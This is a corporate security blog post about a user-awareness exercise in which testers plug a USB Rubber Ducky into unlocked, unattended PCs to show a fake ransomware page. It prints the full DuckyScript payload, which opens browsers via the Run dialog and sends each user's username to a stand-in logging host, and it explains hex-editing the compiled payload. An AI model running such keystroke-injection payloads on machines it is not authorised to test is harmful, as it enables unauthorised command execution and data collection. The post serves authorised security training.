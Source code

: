 ```yaml
---
layout: post
title: "Unattended, Unlocked, Unprotected Terminals - User Security Training with USB Rubber Ducky"
date: 2018-08-21 00:00
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training, we perform tests of our personnel in the work environment.  One training exercise involved testing for unattended computers by inserting a USB device that would display a ransomware screen.

<!-- more -->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find information about it at:

* [Hak5's hackshop.com](http://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID keyboard.  After it's plugged in, a payload programmed into the device sends keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and had not been locked (left at the desktop screen).  If we discovered an unattended computer, we inserted the USB Rubber Ducky into a USB port which delivered our payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the [USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky) encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key combination of **win + CTRL + desktop** (open a new virtual desktop).  I overcame this limitation by manually editing the compiled **inject.bin** with a hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project, the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally, the encoder would have support for more key combinations, but most desired actions can be done without using a hex editor.  I was successful in getting **STRING_DELAY** added to the official code base, and this script command is very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k http://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the security risk to company data.  It creates more ownership (versus just an email note from security) by demonstrating real-world impact of what could happen from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-21-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})
